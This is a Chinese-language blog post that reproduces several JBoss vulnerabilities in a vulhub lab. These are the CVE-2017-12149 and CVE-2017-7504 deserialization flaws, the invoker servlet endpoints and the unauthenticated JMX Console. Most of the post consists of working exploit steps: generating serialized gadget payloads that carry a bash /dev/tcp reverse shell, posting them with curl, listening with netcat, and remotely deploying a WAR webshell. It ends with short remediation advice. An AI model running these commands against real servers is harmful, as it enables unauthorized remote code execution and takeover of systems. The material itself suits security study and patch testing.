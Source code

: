 # jboss常见漏洞复现


### JBoss 5.x/6.x 反序列化漏洞( CVE-2017-12149 )
**验证：** 访问`/invoker/readonly`，如果返回 500 ,说明页面存在,此页面存在反序列化漏洞。
![](http://image.xpshuai.cn/jboss_500.png)

利用工具：[JavaDeserH2HC](https://github.com/joaomatosf/JavaDeserH2HC)
**步骤：**
1.先编译

```bash
# 我们选择一个 Gadget : ReverseShellCommonsCollectionsHashMap ,编译并生成序列化数据
javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java
```

2.设置反弹的IP和端口：

```bash
java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 192.168.0.105:8888 # ip 是 nc 所在的 ip 
# 这样就会将序列化对象保存在ReverseShellCommonsCollectionsHashMap.ser中，用curl命令发送到Jboss服务地址
```

3.本机进行监听
```bash
nv -lvvp 8888
```

4.再打开另一个控制台，运行如下curl命令
```bash
curl http://192.168.0.100:8080/invoker/readonly --data-binary @ReverseShellCommonsCollectionsHashMap.ser
```

5.成功反弹shell




### JBoss JMXInvokerServlet 反序列化漏洞
**验证：**  访问 `/invoker/JMXInvokerServlet`，返回如下,说明接口开放,此接口存在反序列化漏洞。
![](http://image.xpshuai.cn/JBossEJBInvokerServlet1.png)

这里直接利用 CVE-2017-12149 生成的 ser ,发送到 `/invoker/JMXInvokerServlet`接口中。

也可以直接利用工具检测：[工具下载地址](https://cdn.vulhub.org/deserialization/DeserializeExploit.jar)
```bash
# 运行工具即可
java -jar DeserializeExploit.jar
```


### JBoss EJBInvokerServlet 反序列化漏洞
**验证：** 访问     /invoker/EJBInvokerServlet    返回如下,说明接口开放,此接口存在反序列化漏洞。
![](http://image.xpshuai.cn/JBossEJBInvokerServlet.png)

这里直接利用 CVE-2017-12149 生成的 ser ,发送到 `/invoker/EJBInvokerServlet` 接口中


### 修复建议
1. 不需要`ttp-invoker.sar`组件的用户可直接删除此组件
2. 或添加如下代码至 http-invoker.sar 下 web.xml 的 security-constraint 标签中,对 http invoker 组件进行访问控制:`<url-pattern>/*</url-pattern>`




### JBoss <=4.x JBossMQ JMS 反序列化漏洞( CVE-2017-7504 )
利用工具：[JavaDeserH2HC](https://github.com/joaomatosf/JavaDeserH2HC)
**步骤：**
1.先编译
```bash
# 选择ExampleCommonsCollections1WithHashMap，编译并生成序列化数据
javac -cp .:commons-collections-3.2.1.jar ExampleCommonsCollections1WithHashMap.java   #编译 
```

2.设置反弹的IP和端口：
```bash
java -cp .:commons-collections-3.2.1.jar ExampleCommonsCollections1WithHashMap "bash -i >& /dev/tcp/192.168.0.105/1234 0>&1"       #ser全称serialize，序列化恶意数据至文件。
```

3.本机进行监听
```bash
nv -lvvp 1234
```

4.再打开另一个控制台，运行如下curl命令
```bash
#该ser文件作为请求数据主体发送如下数据包
curl http://192.168.0.100:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @ExampleCommonsCollections1WithHashMap.ser  # --data-binary 意为以二进制的方式post数据
```

5.成功反弹shell



### JMX Console 未授权访问
###### 漏洞描述
未授权访问管理控制台,通过该漏洞,可以后台管理服务,可以通过脚本命令执行系统命令,如反弹shell,wget写webshell文件。

###### 环境搭建
使用vulhub
```bash
cd vulhub/jboss/CVE-2017-7504/
docker-compose up -d

# 浏览器访问
```



###### 复现
1.未授权访问测试（无无需认证进入入控制⻚页面面）
```
http://192.168.0.100:8080/
# 进入控制页 JMX Console
http://192.168.0.100:8080/jmx-console/ 
```
![](http://image.xpshuai.cn/jmx_console.png)

2.点击`jboss.deployment`进入应用部署页面
![](http://image.xpshuai.cn/jboss_deployment.png)

3.使用apache搭建远程木马服务器(这里在kali上搭建)

```bash
# war马的制作方式：https://www.peekeyes.com/2020/01/13/%E5%88%B6%E4%BD%9Cwar%E6%9C%A8%E9%A9%AC%E5%B9%B6%E4%B8%94%E6%8B%BF%E4%B8%8Bwebshell/
jar cvf shell.war shell.jsp
```

4.通过addurl参数进行木马的远程部署

```
地址写远程服务器war马的地址
```
![](http://image.xpshuai.cn/jboss_war.png)

成功部署
![](http://image.xpshuai.cn/jboss_war_ok.png)

5.连接木马

```
http://192.168.0.100:8080/shell/shell.jsp
```
![](http://image.xpshuai.cn/jboss_war_connect.png)




###### 防护
- 对jmx控制页面访问添加访问验证。
- 进行JMX Console 安全配置。






---

> 作者: [剑胆琴心](http://geoer.cn)  
> URL: https://shuai06.github.io/jboss%E5%B8%B8%E8%A7%81%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/  

